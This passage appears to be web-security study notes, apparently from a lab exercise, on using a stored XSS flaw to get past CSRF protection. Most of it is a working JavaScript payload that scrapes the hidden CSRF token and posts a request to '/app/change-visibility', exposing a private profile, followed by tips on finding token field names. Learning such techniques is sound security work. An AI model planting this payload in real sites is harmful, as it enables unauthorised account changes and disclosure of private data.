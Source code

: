 We can still perform a CSRF attack through the stored XSS vulnerability that exists. Specifically, we will leverage the stored XSS vulnerability to issue a state-changing request against the web application. A request through XSS will bypass any same origin/same site protection since it will derive from the same domain!
Let us target the Change Visibility request because a successful CSRF attack targeting Change Visibility can cause the disclosure of a private profile.
`<script>`
`var req = new XMLHttpRequest();`
`req.onload = handleResponse;`
`req.open('get','/app/change-visibility',true);`
`req.send();`
`function handleResponse(d) {`
    `var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];`
    `var changeReq = new XMLHttpRequest();`
    `changeReq.open('post', '/app/change-visibility', true);`
    `changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');`
    `changeReq.send('csrf='+token+'&action=change');`
`};`
`</script>`
Note: If no result is returned and you are certain that CSRF tokens are in place, look through various bits of the source code or copy your current CSRF token and look for it through the search functionality. This way, you may uncover the input field name you are looking for. If you still get no results, this doesn't mean that the application employs no anti-CSRF protections. There could be another form that is protected by an anti-CSRF protection.
Check notion for the details